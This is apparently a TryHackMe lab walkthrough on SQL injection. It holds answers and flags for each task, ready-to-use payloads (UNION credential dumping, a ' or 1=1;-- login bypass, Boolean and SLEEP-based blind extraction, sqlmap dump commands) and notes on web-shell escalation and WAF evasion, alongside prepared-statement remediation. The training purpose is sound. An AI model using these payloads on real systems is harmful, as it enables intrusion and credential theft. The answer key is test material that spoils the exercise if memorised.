

# SQL Injection (Comprehensive Technical Guide)

---

## 1. Metadata & Overview

* **Curriculum Track:** Jr Penetration Tester (PT1 Aligned Curriculum)
* **Module:** Module 07 - Web Application Vulnerabilities I
* **Room Number:** Room 01 of 07
* **Platform Room Name:** SQL Injection
* **Official Room Link:** [TryHackMe - SQL Injection](https://tryhackme.com/room/sqlinjectionlm)
* **Room Code:** `sqlinjectionlm`
* **Difficulty:** Medium / Walkthrough
* **Tactical Objective:** Master the foundational principles of relational databases and SQL, dissect context-escaping mechanics, execute In-Band (UNION-based) data extraction, bypass authentication logic, weaponize Boolean and Time-based Blind SQLi pipelines, understand Out-of-Band (OOB) DNS exfiltration, and implement Prepared Statements for remediation.

---

## 2. Executive Summary

**SQL Injection (SQLi)** represents one of the most critical classes of software vulnerabilities (CWE-89, OWASP Top 10 A03:2021). It occurs when an application receives untrusted user input and interpolates it directly into dynamic SQL queries without syntactic separation. This allows attackers to manipulate query logic, bypass authentication, exfiltrate sensitive data, manipulate database state, and occasionally pivot to Remote Code Execution (RCE).

This guide provides an end-to-end operational analysis across four distinct hands-on laboratory tiers:
1. **Level 1 (In-Band / UNION SQLi):** Determining query columns, querying `information_schema` to identify database `sqli_one`, mapping table `staff_users`, and dumping administrative credentials (`admin:4276`) to capture flag `THM{SQL_INJECTION_3840}`.
2. **Level 2 (Blind Auth Bypass):** Subverting authentication query logic via tautology injection (`' or 1=1;--`) to log in as administrator and extract flag `THM{SQL_INJECTION_9581}`.
3. **Level 3 (Blind Boolean-Based SQLi):** Inferring data byte-by-byte through True/False JSON responses (`{"taken": true/false}`), harvesting admin password `3845`, and capturing flag `THM{SQL_INJECTION_1093}`.
4. **Level 4 (Blind Time-Based SQLi):** Exfiltrating data across timing side-channels via `SLEEP(5)` injected into the `Referer` header to obtain the master flag `THM{SQL_INJECTION_MASTER}`.
5. **Remediation:** Comprehensive hardening via **Prepared Statements** (Parameterized Queries).

---

## 3. Architecture & Concepts Diagram



---

## 4. Prerequisites & Setup

1. **Required Tooling:**
   * Browser configured with Burp Suite (Repeater & Intruder).
   * Command-line utilities (cURL, Python 3, SQLMap).
2. **Lab VM Deployment & Host Resolution:**
   * Deploy the lab VM on TryHackMe to obtain `MACHINE_IP`.
   * Add the domain mapping to your local hosts file (`/etc/hosts` or Windows equivalent):
     ```text
     MACHINE_IP website.thm
     ```
3. **Target Scope:**
   * Verify HTTP access on port 80/443 to `https://website.thm/`.

---

## 5. Core Concepts & Theoretical Deep Dive

### Query Context Escaping
In vulnerable web applications, user parameters are surrounded by quotes:
`SELECT * FROM products WHERE item = '$input';`
An attacker sends a quote (`'`) to terminate the string literal, inserts arbitrary SQL clauses (`OR`, `UNION`), and injects a comment delimiter (`-- `) to discard the developer's trailing syntax.

### The Mechanics of UNION Operations
To concatenate query outputs:
* The injected `SELECT` must return the exact same column count as the primary query.
* Corresponding columns must possess mutually compatible data types.
* The original query must be forced to return zero rows (e.g., using `id=0` or `id=-1`) so that the template displays the injected data.

### Abstract Syntax Tree (AST) Pre-compilation
In secure applications using Prepared Statements:
1. The SQL query structure is parsed and compiled into an AST before user data is accepted.
2. User parameters are bound strictly as data values across the wire protocol.
3. Even if a parameter contains `' OR 1=1;--`, the database treats it as an exact string literal to be matched, neutralizing code injection completely.

---

## 6. Room Breakdown & Navigation

The room comprises 10 comprehensive tasks:
* **Task 01: Brief** — Definition and scope of SQL (`Structured Query Language`).
* **Task 02: What is a Database?** — DBMS architecture and `table` structures.
* **Task 03: What is SQL?** — Core query commands: `SELECT`, `UNION`, `INSERT`.
* **Task 04: What is SQL Injection?** — Query termination via semicolon (`;`) and comments.
* **Task 05: In-Band SQLi** — Level 1: UNION SQLi and credential dumping.
* **Task 06: Blind SQLi - Auth Bypass** — Level 2: Boolean bypass via `' or 1=1;--`.
* **Task 07: Blind SQLi - Boolean Based** — Level 3: Character extraction via True/False logic.
* **Task 08: Blind SQLi - Time Based** — Level 4: Exfiltration via `SLEEP(5)` delays.
* **Task 09: Out-of-Band SQLi** — Exfiltration channels leveraging the `DNS` protocol.
* **Task 10: Remediation** — Defense-in-depth using `Prepared Statements`.

---

## 7. Task-by-Task Implementation Summary

| Task # | Task Title | Question | Verified Answer | Stage A-G Detailed File |
| :---: | :--- | :--- | :--- | :---: |
| **01** | Brief | What does SQL stand for? | `Structured Query Language` | [TASK-01.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-01.md) |
| **02** | What is a Database? | 1. Acronym for database software?<br>2. Name of grid-like structure? | Q1: `DBMS`<br>Q2: `table` | [TASK-02.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-02.md) |
| **03** | What is SQL? | 1. Statement to retrieve data?<br>2. Clause to combine SELECTs?<br>3. Statement to add data? | Q1: `SELECT`<br>Q2: `UNION`<br>Q3: `INSERT` | [TASK-03.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-03.md) |
| **04** | What is SQL Injection? | What character signifies the end of a statement? | `;` | [TASK-04.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-04.md) |
| **05** | In-Band SQLi | What is the flag after completing level one? | `THM{SQL_INJECTION_3840}` | [TASK-05.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-05.md) |
| **06** | Blind SQLi - Auth Bypass | What is the flag after completing level two? | `THM{SQL_INJECTION_9581}` | [TASK-06.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-06.md) |
| **07** | Blind SQLi - Boolean Based | What is the flag after completing level three? | `THM{SQL_INJECTION_1093}` | [TASK-07.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-07.md) |
| **08** | Blind SQLi - Time Based | What is the final flag after completing level four? | `THM{SQL_INJECTION_MASTER}` | [TASK-08.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-08.md) |
| **09** | Out-of-Band SQLi | Protocol beginning with D to exfiltrate data? | `DNS` | [TASK-09.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-09.md) |
| **10** | Remediation | Method of protecting from SQLi? | `Prepared Statements` | [TASK-10.md](file:///e:/THM-JR-PENETRATION-TESTER/07-WEB-APPLICATION-VULNERABILITIES-I/01-SQL-INJECTION-INTRO/TASKS/TASK-10.md) |

---

## 8. Practical Labs & Hands-on Exploitation

### Lab 1: In-Band UNION-Based Data Extraction
* **Target:** `/article?id=1`
* **Payload:** `0 UNION SELECT 1,2,group_concat(username,':',password) FROM staff_users;--`
* **Exfiltrated Account:** `admin:4276`
* **Flag:** `THM{SQL_INJECTION_3840}`

### Lab 2: Tautology Authentication Bypass
* **Target:** `/login`
* **Injected Field:** `username: ' or 1=1;--`
* **Flag:** `THM{SQL_INJECTION_9581}`

### Lab 3: Blind Boolean-Based Binary Search
* **Target:** `/checkuser?username=admin`
* **Payload Structure:** `admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '3845%';--`
* **Flag:** `THM{SQL_INJECTION_1093}`

### Lab 4: Blind Time-Based Channel
* **Target:** Header `Referer`
* **Payload:** `Referer: admin123' UNION SELECT SLEEP(5),2;--`
* **Master Flag:** `THM{SQL_INJECTION_MASTER}`

---

## 9. Red Team & Offensive Applications

* **Database to RCE Escalation:**
  - Writing web shells via MySQL `SELECT ... INTO OUTFILE '/var/www/html/shell.php';`.
  - Executing system commands in MSSQL via `xp_cmdshell`.
* **WAF Evasion Pipelines:** Utilizing inline comments (`UN/**/ION`), whitespace substitution (`%09`, `%0a`), and character encoding to evade signature-based detection.

---

## 10. Blue Team & Defensive Strategies

* **Mandatory Prepared Statements:** Strict enforcement of parameterized queries across all database access layers (PDO, JDBC, Django ORM).
* **Least Privilege Enforcement:** Web database accounts must never possess administrative privileges (`GRANT ALL`), file write rights, or system stored procedure execution permissions.
* **Network Egress Filtering:** Restrict outbound database connections to block Out-of-Band DNS/HTTP exfiltration.

---

## 11. Troubleshooting & Edge Cases

* **Issue: UNION SELECT fails with syntax errors.**
  * *Fix:* Increment column count one by one (`1`, `1,2`, `1,2,3`) until the query succeeds.
* **Issue: Sleep function causes zero delay.**
  * *Fix:* Fingerprint the database engine. MySQL uses `SLEEP()`, MSSQL uses `WAITFOR DELAY`, PostgreSQL uses `pg_sleep()`.
* **Issue: Extracted data does not appear in the web page.**
  * *Fix:* Pass an invalid ID (`id=0` or `id=-1`) to suppress the original row so that the injected row renders in the template.

---

## 12. Cheatsheet & Command Line Equivalents

```bash
# SQLMap automated extraction
sqlmap -u "https://website.thm/article?id=1" --dbs --batch
sqlmap -u "https://website.thm/article?id=1" -D sqli_one -T staff_users --dump --batch

# Manual cURL time measurement
time curl -s -H "Referer: admin123' UNION SELECT SLEEP(5),2;--" "https://website.thm/"
```

---

## 13. Knowledge Check & Verification Questions

1. **Question:** What is the fundamental operational difference between In-Band and Blind SQL Injection?
   * *Answer:* In-Band displays extracted data directly in the HTTP response; Blind yields no visible data, requiring inference via Boolean states or time delays.
2. **Question:** Why do Prepared Statements eliminate SQL Injection entirely?
   * *Answer:* They pre-compile the query's AST, ensuring user input is bound purely as literal data that cannot alter execution logic.
3. **Question:** Why is DNS the preferred protocol for Out-of-Band exfiltration?
   * *Answer:* Outbound UDP port 53 is almost universally permitted through firewalls to allow internal servers to perform domain name resolution.

---

## 14. References & Documentation

* [PortSwigger SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [OWASP Top 10: A03:2021 - Injection](https://owasp.org/Top10/A03_2021-Injection/)
* [CWE-89: SQL Injection Standard](https://cwe.mitre.org/data/definitions/89.html)
* [SQLMap Official Repository](https://sqlmap.org/)
